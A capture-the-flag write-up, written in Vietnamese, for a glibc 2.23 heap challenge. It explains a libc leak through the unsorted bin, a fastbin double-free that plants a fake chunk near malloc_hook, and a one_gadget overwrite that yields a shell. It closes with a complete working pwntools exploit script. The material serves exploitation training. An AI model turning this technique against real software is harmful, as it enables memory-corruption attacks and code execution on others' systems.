










# Heap_Exploit - Heap2

# 1. Xem thông tin file

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
pwn2_df_patched: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-2.23.so, for GNU/Linux 3.2.0, BuildID[sha1]=448d3beedfd5ae424f8d857ba8b2e06eb7e09591, not stripped
```
Đây là file 64-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
RUNPATH:  b'.'
```

Full bảo vệ được bật. Kế đến sử dụng Ida Pro 64 bits

Sửa lại file IDA ta có hàm main():



Ở đây ta có 4 options dùng để khai thác bao gồm: 'createHeap', 'showHeap', 'editHeap', 'exit'

# 2. Phân tích yêu cầu

ở bài này không có hàm get_shell hay get_flag vì vậy chúng ta phải tự tạo shell, kiếm thử one_gadget:



Do one_gadget ở bài này yêu cầu ít -> one_gadget

# 3. Khai thác

Đầu tiên chúng ta sẽ tạo một vài chunks rồi free nó:

```
create(0, 0x80, b"1"*0x80) # tạo khối bộ nhớ có kích thước 0x80 bytes
create(1, 0x80, b"2"*0x80) # tạo khối bộ nhớ có kích thước 0x80 bytes
free(0) # giải phóng khối bộ nhớ vừa tạo
```

Khi đó heap của chúng ta sẽ như sau:



Vì sao khi free thì địa chỉ chunk đó không lưu trên '
fastbins'?

Vì khi một khối nhớ được giải phóng, chương trình sẽ thêm khối đó vào danh sách các khối nhớ trống để sử dụng cho các yêu cầu cấp phát khác. 

Fastbin là một trong những danh sách này, nó được dùng để quản lý các khối nhớ nhỏ và có kích thước cố định. Chương trình này sử dụng 'libc.2.23' nên có chunk max là 0x80 bytes

Nếu chunk heap cấp phát cao hơn max kích thước mà fastbin có 

->rồi sau đó nó được giải phóng, thông tin về chunk heap đó sẽ được ghi vào metadata của chunk heap, và sau đó được lưu trữ trong biến global 'main_arena'.

Từ địa chỉ 'main_area' trên chunk heap, ta leak được địa chỉ libc_base và từ đó tính được 'malloc_hook' cũng như 'one_gadget':

```
show(0)
p.recvuntil(b"Data = ")
libc = int.from_bytes(p.recv(6),"little") -3783544
print("Leak: ", hex(libc))
malloc_hook = libc + 3783440
print("Malloc: ",hex(malloc_hook))
og = libc + 0x3f3d6
og2 = libc + 0x3f42a
og3 = libc + 0xd5bf7
```

Tiếp theo chúng ta tạo 2 chunk rác rồi lợi dụng lỗi 'double-free':

```
create(2, 0x68, b"a"*8)
create(3, 0x68, b"b"*8)
free(2)
free(3)
free(2)
```
Tại sao phải free(3) rồi mới lại free(2) lần nữa?

Vì khi ta free() 2 lần chunk cuối thì chương trình sẽ bị lỗi in ra màn hình : 



Sau khi free() 3 lần chúng ta nhận được giá trị của fastbin 0x70: 



Vì khi free() 1 chunk có size nằm trong khoảng 0x70 thì sẽ được lưu địa chỉ trong fastbin 0x70 nhưng do ta free(2) 2 lần khiến địa chỉ này xuất hiện 2 lần trong fastbin 0x70.

Tiếp sau đó, ta tạo 1 chunk để xuất hiện 'malloc_hook' trong fastbin để sau này chúng ta ghi đè:

```
create(4,0x68,p64(malloc_hook-35))
```

Ở đây là 'malloc_hook'-35. Hãy nhìn vào fake_chunk định tạo:



Ở vị trí này chúng ta có thể tạo 1 fake chunk với size '0x7f' vì nó thuộc đoạn fastbin 0x70 để sau này ta có thể ghi vào.

Nhìn vào fastbin khi đó: 



Nơi ta cần ghi đè đó là 'malloc_hook'-35 ở vị trí thứ 3

-> tạo thêm 2 fake chunk với size 0x68 bytes.

```
create(5,0x68,b"C"*0x8)
create(6,0x68,b"D"*8)
```

Ok! Giờ việc còn lại của ta là tạo 1 chunk mới vào địa chỉ thứ 3 của fastbin 0x70.

```
payload = b"a"*19 + p64(og3)
create(7,0x68,payload)
```

Tạo sao lại là 19 bytes rác trước khi ghi 'one_gadget' vào?



Do nơi ta ghi vào cách giá trị của 'malloc_hook' là 0x19 .

Nhìn vào điều kiện 'one_gadget'



Và check stack sau đó: 



Do ở đây vẫn còn vòng lặp loop

-> Lợi dụng chương trình bị lỗi "double free or corruption (fasttop)" khiến nó dừng lại để chạy shell:

```
free(5)
free(5)
```

Vậy là lấy được shell.

# Full code:

```
from pwn import*
context.log_level       = "DEBUG"
context.arch            = "amd64"

elf = context.binary = ELF('./pwn2_df_patched', checksec=False)

p = process("./pwn2_df_patched")

#gdb.attach(p, gdbscript='''
#vis
#''')

def create(index,size,data):
	p.sendlineafter(b">", b"1")
	p.sendlineafter(b"Index:", str(index))
	p.sendlineafter(b"Input size:", str(size))
	p.sendafter(b"Input data:", data)

def free(index):
	p.sendlineafter(b">", b"4")
	p.sendafter(b"Input index:", str(index)) 

def show(index):
	p.sendlineafter(b">", b"2")
	p.sendlineafter(b"Index:", str(index))


def edit(index,data):
	p.sendlineafter(b">", b"3")
	p.sendlineafter(b"Input index:", str(index))
	p.sendline(data)


create(0, 0x80, b"1"*0x80) # tạo khối bộ nhớ có kích thước 0x80			do fastbin max = 0x80 bytes => free -> unsortedbin
create(1, 0x80, b"2"*0x80) # tạo khối bộ nhớ có kích thước 0x80
free(0) # giải phóng khối bộ nhớ vừa tạo

show(0)
p.recvuntil(b"Data = ")
libc = int.from_bytes(p.recv(6),"little") -3783544
print("Leak: ", hex(libc))
malloc_hook = libc + 3783440
print("Malloc: ",hex(malloc_hook))
og = libc + 0x3f3d6
og2 = libc + 0x3f42a
og3 = libc + 0xd5bf7

create(2, 0x68, b"a"*8)
create(3, 0x68, b"b"*8)
free(2)
free(3)
free(2)

create(4,0x68,p64(malloc_hook-35))
create(5,0x68,b"C"*0x8)
create(6,0x68,b"D"*8)

payload = b"a"*19 + p64(og3)
create(7,0x68,payload)

free(5)
free(5)


#p.sendlineafter(b">",payload)
p.interactive()
```


